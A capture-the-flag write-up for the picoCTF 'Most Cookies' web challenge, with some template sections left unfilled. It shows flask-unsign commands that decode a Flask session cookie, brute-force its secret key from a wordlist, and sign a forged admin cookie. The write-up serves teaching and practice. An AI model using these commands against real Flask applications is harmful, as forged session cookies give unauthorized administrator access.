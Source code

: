 # CTF Write-Up: [Most Cookies][Web Exploitation]

## Description
![alt text](images/image.png)

## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{pwn_4ll_th3_cook1E5_478da04c`}

## Difficulty
- **Difficulty Level:** [medium]

## Tools Used
- `flask-unsign` 

## Write-Up

### Step 1: [Prepartory]
- In the description it stated the challenge related to flask cookies. Therefore upon searching up 'flask cookies CTF' 
on Google I came across an article stating how to use `flask-unsign.` 
Source: https://github.com/Paradoxis/Flask-Unsign
- Static analysis revealed the following information:
1. ![alt text](images/image-1.png)
The secret key can be brute-forced from the list named `cookie_names`

2. ![alt text](images/image-2.png)
In order to obtain the flag we need to modify the cookie such that `session[very auth] = "admin"'
### Step 2: [Attack]
- Go into inspect element then into the application tab in order to obtain the cookies.
![alt text](images/image-3.png)
- Copy and paste the cookie and use `flask-unsign --decode --cookie <cookie>`
![alt text](images/image-5.png)
- Create a `keys.txt` file consisting of the entries from the `cookie_names.` Run `flask-unsign --wordlist keys.txt --unsign --cookie <cookie> --no-literal-eval`.
![alt text](images/image-6.png)
- Use the secret key obtained to sign `{'very_auth': 'admin'}` using `flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret '<insert key found>'`
- Then we can modify the cookie field in the inspect element tab to the encrypted cookie.
![alt text](images/image-7.png)


### Final Solution/Payload
- Summarize how you arrived at the final solution and any critical insights that helped you solve the challenge.

## Lessons Learned
- Discuss what you learned from the challenge and any techniques or concepts you found particularly interesting.

## References
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/flask

